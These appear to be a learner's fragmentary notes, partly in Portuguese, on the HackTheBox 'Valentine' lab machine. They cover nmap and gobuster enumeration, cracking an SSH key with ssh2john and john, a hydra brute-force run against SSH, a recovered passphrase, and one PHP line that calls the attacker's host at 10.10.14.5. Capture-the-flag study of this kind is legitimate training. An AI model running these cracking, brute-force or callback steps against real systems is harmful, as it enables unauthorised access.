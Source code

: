 Valentine
========================

# Enumeration

    sudo nmap_enum 10.10.10.79 | tee nmap_output.txt
    
![qownnotes-media-KzvBTm](../../../media/qownnotes-media-KzvBTm.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.79 | tee nmap_udp_output.txt

Nada



    gobuster dir -u http://10.10.10.79 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
![qownnotes-media-xkTuDC](../../../media/qownnotes-media-xkTuDC.png)


    firefox https://10.10.10.79/dev

![qownnotes-media-LIAvih](../../../media/qownnotes-media-LIAvih.png)

![qownnotes-media-ykCdrw](../../../media/qownnotes-media-ykCdrw.png)

![qownnotes-media-dwiCUg](../../../media/qownnotes-media-dwiCUg.png)


    cat ssh_key

![qownnotes-media-xqapyf](../../../media/qownnotes-media-xqapyf.png)

    ssh2john ssh_key > ssh.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash

![qownnotes-media-xjgxIe](../../../media/qownnotes-media-xjgxIe.png)

Sem sucesso

    <?php $ch = curl_init() ; curl_exec('http://10.10.14.5:8080');curl_close($ch) ;?>

    gobuster dir -u https://10.10.10.79 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_https_gobuster.txt"


    hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 10.10.10.79 ssh

![qownnotes-media-ocCnbd](../../../media/qownnotes-media-ocCnbd.png)

heartbleedbelievethehype
